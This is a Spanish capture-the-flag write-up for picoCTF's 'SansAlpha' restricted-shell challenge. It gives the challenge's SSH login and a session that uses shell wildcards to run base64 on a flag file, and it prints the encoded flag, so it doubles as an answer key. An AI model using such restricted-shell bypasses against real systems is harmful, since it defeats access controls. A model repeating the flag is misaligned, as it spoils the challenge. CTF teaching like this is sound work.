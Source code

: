 ## Description

The Multiverse is within your grasp! Unfortunately, the server that contains the secrets of the multiverse is in a universe where keyboards only have numbers and (most) symbols.`ssh -p 56770 ctf-player@mimas.picoctf.net`Use password: `6dd28e9b`


## Hint

1. Where can you get some letters?

## Solution

Para esto se va usar los wildcards, mejor conocido como comodines, se usan para representar uno o más caracteres desconocidos de búsqueda, patrones o comandos. 


Es una shell limitada, por lo tanto sólo se pueden usar caracteres alfanuméricos, sin símbolos especiales. 

```bash

SansAlpha$ ls
SansAlpha: Unknown character detected
SansAlpha$ */*
bash: blargh/flag.txt: Permission denied

SansAlpha$ /*
bash: /bin: Is a directory

SansAlpha$ /*/???
E: Invalid operation /bin/awk

SansAlpha$ /*/????64 */*
/bin/base64: extra operand '/bin/x86_64'
Try '/bin/base64 --help' for more information.

SansAlpha$ /*/???[!_]64 */*
/bin/base64: extra operand 'blargh/flag.txt'
Try '/bin/base64 --help' for more information.

SansAlpha$ /*/???[!_]64 */????.*
cmV0dXJuIDAgcGljb0NURns3aDE1X211MTcxdjNyNTNfMTVfbTRkbjM1NV8xNDUyNTZlY30=


```

1. La shell no deja usar ls directamente. 
2. Se intenta comando para mostrar los archivos dentro de subdirectorios del directorio actual. * = cualquier carpeta y /* cualquier archivo dentro de la carpeta. 
3. Se lista las cosas que están dentro del directorio raiz, y observamos que la carpeta /bin existe. 
4. Después intentamos listando todos los archivos de todos los subdirectorios de }/ que tengan exactamente 3 letras. 
5. Se buscan todos los binarios que tengan alrededor de 7 letras y termine en 64.
6. Encontramos el archivo blargh/flag.txt, pero como el shell interpreta más de un archivo nos indica extra operand. 
7. Encontrando un binario que tenga 6 caracteres y termine en 64, pero excluyendo' _' antes del 64.
8. Dentro de los subdirectorios, como /blargh, sse busca los archivos con 4 caracteres + su extensión. 
9. Nos imprime una cadena en base 64.
